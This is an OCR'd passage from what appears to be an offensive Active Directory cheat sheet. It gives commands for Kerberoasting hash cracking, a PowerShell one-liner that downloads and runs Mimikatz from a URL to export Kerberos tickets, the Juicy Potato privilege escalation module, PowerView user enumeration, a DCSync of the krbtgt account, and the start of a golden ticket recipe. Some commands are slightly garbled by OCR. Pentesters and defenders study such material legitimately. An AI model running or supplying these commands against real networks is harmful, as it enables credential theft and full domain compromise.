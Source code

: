 The result of this step will be the hash of a kerberos ticket. It can directly be cracked with hashcat64.exe -m 13100 roasted.hash <wordlist>.

**Kerberos ticket export oneliner:**

powershell.exe  -exec bypass IEX (New-Object) Net.WebClient).DownloadString('<url to  MimiKatz.ps1>'); Invoke-Mimikatz -Command "kerberos::list /export"

**Juicy Potato (Metasploit) **[**HERE**](http://ohpe.it/juicy-potato/)
use windows/local/ms16_075_reflection_juicy`
set SESSION <>
set CLSID <>
**PowerView:**
All kinds of useful domain related commands.
**List Domain Users With PowerView:**
Get-DomainUser -Credential $cred -DomainController <dc>

Get-DomainUser -Credential $cred -DomainController <dc> | select samAccountName, logoncount, lastlogon

=====================================

|                             DCSYNC ATTACK                            |

=====================================
Can be performed without performing any logon to Domain Controllers
mimikatz.exe
mimikatz # lsadump::dcsync /domain:osbornepro.com /user:krbtgt

# The above account can be used to get Golden Tickets

==============================

|                GOLDEN TICKET RECIPE               |

==============================
{{{{FIRST PIECE OF INFO NEEDED}}}}
DOMAIN      : osbornepro.com

# This is of course the domain you are in

{{{{SECOND PIECE OF INFO NEEDED}}}}
DOMAIN SID  : <sid number>

# Whlie logged onto a domain computer issue the below command and leave off the last five digits

PS> whoami /user
USER INFORMATION
----------------
User Name    SID
============ ==============================================
osbornepro/derp S-1-5-21-<sid number>
{{{{THIRD PIECE OF INFO NEEDED}}}}}
KRBTGT      : <ticket hash>
